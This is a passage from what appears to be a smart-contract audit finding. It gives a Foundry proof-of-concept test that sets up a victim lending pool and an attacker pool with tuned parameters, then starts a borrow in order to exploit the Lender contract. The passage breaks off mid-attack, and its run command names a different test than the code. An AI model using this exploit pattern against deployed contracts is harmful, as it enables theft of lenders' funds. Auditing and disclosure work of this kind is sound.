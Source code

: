 Add this test to Lender.t.sol:

Note: I had to run it with forge test --match-test testCleanCleanPOC -vvv --via-ir because of a stack too deep error.

```javascript
function testExploitPOC() public {
        //Creating lender1's pool(the victim)
        vm.startPrank(lender1);
        Pool memory poolL1 = Pool({
            lender: lender1,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 2 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 0, //for simple calculations
            outstandingLoans: 0
        });
        bytes32 poolId1 = lender.setPool(poolL1);

        //Creating lender2's pool(the attacker)
        vm.startPrank(lender2);
        Pool memory poolL2 = Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 10 * 10 ** 18, //this needs to be big so we can borrow a lot of funds
            auctionLength: 20, //this needs to be low so we can quickly buy the loan without getting error RateTooHigh
            interestRate: 0, //for simple calculations
            outstandingLoans: 0
        });
        bytes32 poolId2 = lender.setPool(poolL2);

        //loanIds
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        //set up the borrow from Lender2's pool
        vm.startPrank(borrower);
        Borrow memory b = Borrow({
            poolId: poolId2,
            debt: 1000 * 10 ** 18,
            collateral: 100 * 10 ** 18
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;

        //get the balances of poolId1 and poolId2
        (, , , , uint256 poolId1Balance, , , , ) = lender.pools(poolId1);
        (, , , , uint256 poolId2Balance, , , , ) = lender.pools(poolId2);

        //assert starting balances of borrower are 0, and the pools are with the balances we created them with
        assertEq(0, TERC20(loanToken).balanceOf(borrower));
        assertEq(0, TERC20(loanToken).balanceOf(borrower));
        assertEq(1000 * 10 ** 18, poolId1Balance);
        assertEq(1000 * 10 ** 18, poolId2Balance);

        //borrow from Lender2's pool
        lender.borrow(borrows);
```